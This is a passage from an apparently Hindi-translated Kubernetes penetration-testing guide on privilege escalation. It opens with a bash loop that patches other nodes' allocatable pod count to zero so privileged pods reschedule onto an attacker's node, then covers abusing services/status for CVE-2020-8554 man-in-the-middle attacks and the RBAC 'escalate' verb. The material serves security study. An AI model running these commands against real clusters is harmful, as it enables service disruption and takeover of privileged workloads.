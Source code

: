 {% code overflow="wrap" %}
```bash
patch_node_capacity(){
curl -s -X PATCH 127.0.0.1:8001/api/v1/nodes/$1/status -H "Content-Type: json-patch+json" -d '[{"op": "replace", "path":"/status/allocatable/pods", "value": "0"}]'
}

while true; do patch_node_capacity <id_other_node>; done &
#Launch previous line with all the nodes you need to attack

kubectl delete pods -n kube-system <privileged_pod_name>
```
{% endcode %}

### सेवाओं की स्थिति (CVE-2020-8554)

प्रिंसिपल जो **`services/status`** को **संशोधित** कर सकते हैं, वे `status.loadBalancer.ingress.ip` फ़ील्ड को सेट कर सकते हैं ताकि **अनफिक्स्ड CVE-2020-8554** का लाभ उठाया जा सके और **क्लस्टर के खिलाफ MiTM हमले** शुरू किए जा सकें। CVE-2020-8554 के लिए अधिकांश निवारण केवल ExternalIP सेवाओं को रोकते हैं (अनुसार [**यह**](https://github.com/PaloAltoNetworks/rbac-police/blob/main/lib/modify_service_status_cve_2020_8554.rego))।

### नोड्स और पॉड्स की स्थिति

प्रिंसिपल जिनके पास `nodes/status` या `pods/status` पर **`update`** या **`patch`** अनुमतियाँ हैं, वे लेबल को संशोधित कर सकते हैं ताकि लागू किए गए शेड्यूलिंग प्रतिबंधों को प्रभावित किया जा सके।

## अंतर्निहित विशेषाधिकार वृद्धि रोकथाम

Kubernetes में विशेषाधिकार वृद्धि को रोकने के लिए एक [अंतर्निहित तंत्र](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#privilege-escalation-prevention-and-bootstrapping) है।

यह प्रणाली सुनिश्चित करती है कि **उपयोगकर्ता भूमिकाओं या भूमिका बाइंडिंग को संशोधित करके अपने विशेषाधिकारों को बढ़ा नहीं सकते**। इस नियम का प्रवर्तन API स्तर पर होता है, जो RBAC प्राधिकर्ता के निष्क्रिय होने पर भी एक सुरक्षा प्रदान करता है।

यह नियम stipulates करता है कि **एक उपयोगकर्ता केवल तभी एक भूमिका बना या अपडेट कर सकता है जब उसके पास भूमिका में शामिल सभी अनुमतियाँ हों**। इसके अलावा, उपयोगकर्ता की मौजूदा अनुमतियों का दायरा उस भूमिका के दायरे के साथ मेल खाना चाहिए जिसे वे बनाने या संशोधित करने का प्रयास कर रहे हैं: या तो ClusterRoles के लिए क्लस्टर-व्यापी या Roles के लिए उसी namespace (या क्लस्टर-व्यापी) में।

{% hint style="warning" %}
पिछले नियम का एक अपवाद है। यदि एक प्रिंसिपल के पास **`roles`** या **`clusterroles`** पर **क्रिया `escalate`** है, तो वह स्वयं अनुमतियाँ न होने पर भी भूमिकाओं और क्लस्टर भूमिकाओं के विशेषाधिकार बढ़ा सकता है।
{% endhint %}

### **RoleBindings/ClusterRoleBindings प्राप्त करें और पैच करें**

{% hint style="danger" %}
**स्पष्ट रूप से यह तकनीक पहले काम करती थी, लेकिन मेरे परीक्षणों के अनुसार यह अब काम नहीं कर रही है, जैसा कि पिछले अनुभाग में समझाया गया है। यदि आपके पास पहले से अनुमतियाँ नहीं हैं तो आप अपने लिए या किसी अन्य SA को कुछ विशेषाधिकार देने के लिए एक भूमिका बाइंडिंग नहीं बना/संशोधित कर सकते।**
{% endhint %}
